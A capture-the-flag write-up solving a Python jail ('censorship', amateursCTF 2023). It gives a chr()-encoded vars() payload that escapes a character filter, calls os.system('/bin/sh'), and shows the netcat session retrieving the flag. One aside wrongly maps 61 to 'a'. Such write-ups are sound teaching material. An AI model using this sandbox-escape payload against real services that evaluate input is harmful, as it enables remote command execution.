 # censorship

## problem

![image](https://github.com/quasar098/ctf-writeups/assets/70716985/a205a126-568d-4093-804f-e795ec1bf19e)

```py
#!/usr/local/bin/python
from flag import flag

for _ in [flag]:
    while True:
        try:
            code = ascii(input("Give code: "))
            if "flag" in code or "e" in code or "t" in code or "\\" in code:
                raise ValueError("invalid input")
            exec(eval(code))
        except Exception as err:
            print(err)
```

## solution

to see which functions we have access to, we can use this:

```
>>> [_ for _ in dir(__builtins__) if "e" not in _ and "t" not in _ and "\\" not in _]
['BlockingIOError', 'EOFError', 'Ellipsis', 'EncodingWarning', 'IOError', 'LookupError', 'OSError', 'TabError', 'UnboundLocalError', 'Warning', '__build_class__', '__doc__', 'abs',
'all', 'any', 'ascii', 'bin', 'bool', 'chr', 'dir', 'divmod', 'globals', 'hash', 'id', 'issubclass', 'locals', 'map', 'max', 'min', 'ord', 'pow', 'round', 'sum', 'vars', 'zip']
```

notably, we have access to the `chr` function, which allows us to construct a string from integers (`61 -> "a"`)

to seal the deal, we have `vars`, which allows us access to `__builtins__`

we can use this payload to get access to a shell

```py
vars(vars(vars()[chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)])[chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)]('os'))[chr(1
15)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)]('/bin/sh')
```

it does this:
`vars(vars(vars()['__builtins__'])['__import__']('os'))['system']('/bin/sh')`

which is equivalent to this:
`__builtins__.__import__('os').system('/bin/sh')`

and so we get the flag
```
quasar@quasar098:~$ nc amt.rs 31670
Give code: vars(vars(vars()[chr(95)+chr(95)+chr(98)+chr(117)+chr(105)+chr(108)+chr(116)+chr(105)+chr(110)+chr(115)+chr(95)+chr(95)])[chr(95)+chr(95)+chr(105)+chr(109)+chr(112)+chr(111)+chr(114)+chr(116)+chr(95)+chr(95)]('os'))[chr(115)+chr(121)+chr(115)+chr(116)+chr(101)+chr(109)]('/bin/sh')
$ ls
flag.py
run
$ cat flag.py
flag = "amateursCTF{i_l0v3_overwr1t1nG_functions..:D}"
$ exit
Give code: ^C
```

despite what the flag says, i did not overwrite any functions. not even in my solution for the next challenge, [censorship-lite](https://github.com/quasar098/ctf-writeups/tree/main/amateursctf-2023/censorship-lite)
